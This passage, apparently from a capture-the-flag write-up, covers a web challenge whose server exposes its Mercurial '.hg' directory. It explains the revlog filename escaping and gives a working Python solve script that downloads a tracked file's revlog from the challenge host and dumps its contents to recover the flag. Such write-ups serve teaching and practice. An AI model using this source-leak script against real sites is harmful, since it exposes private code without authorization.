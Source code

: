 This leaks several interesting files, including `gerard_way2001.py`. This file is affectionately named after the lead singer of My Chemical Romance, Gerard Way, and the year the band was started in the great state of New Jersey! Reading more about Mercurial repository structure, one can learn that similar to Git objects, Mercurial stores [revlog](https://www.mercurial-scm.org/wiki/Revlog) objects in the `.hg/store/` directory with files named after the file they are tracking with the file extension of `.i`. However, one tricky part about the name of these files involves the escaping of special characters. Mercurial escapes special characters in the file name by adding an additional underscore. One of these such characters is the underscore character itself. :D For this reason, in order to download the revlog object for `gerard_way2001.py`, we need to visit `http://my-chemical-romance.lac.tf/.hg/store/data/gerard__way2001.py.i`. Once this file is downloaded, a known [algorithm](https://www.mercurial-scm.org/repo/hg/file/default/contrib/dumprevlog) to parse the revlog object can be used to extract the contents of the file. A sample version of such a script is included below. You can run the following solve script by using `python3 solve.py | grep lactf` to get the flag.

```python
import os, sys
import requests

from mercurial.node import hex
from mercurial import encoding, pycompat, revlog
from mercurial.utils import procutil

from mercurial.revlogutils import constants as revlog_constants

url = 'http://my-chemical-romance.lac.tf/'
filename = 'gerard__way2001.py.i'

res = requests.get(url + '/.hg/store/data/' + 'gerard__way2001.py.i')

with open('gerard__way2001.py.i', 'wb') as file:
    file.write(res.content)

for fp in (sys.stdin, sys.stdout, sys.stderr):
    procutil.setbinary(fp)

def binopen(path, mode=b'rb'):
    if b'b' not in mode:
        mode = mode + b'b'
    return open(path, pycompat.sysstr(mode))

binopen.options = {}

def printb(data, end=b'\n'):
    sys.stdout.flush()
    procutil.stdout.write(data + end)

localf = encoding.strtolocal(filename)
if not localf.endswith(b'.i'):
    print("file:", filename, file=sys.stderr)
    print("  invalid filename", file=sys.stderr)

r = revlog.revlog(binopen, target=(revlog_constants.KIND_OTHER, b'dump-revlog'), radix=localf[:-2], )

for i in r:
    n = r.node(i)
    p = r.parents(n)
    d = r.revision(n)
    printb(b"node: %s" % hex(n))
    printb(b"linkrev: %d" % r.linkrev(i))
    printb(b"parents: %s %s" % (hex(p[0]), hex(p[1])))
    printb(b"length: %d" % len(d))
    printb(b"-start-")
    printb(d)
```
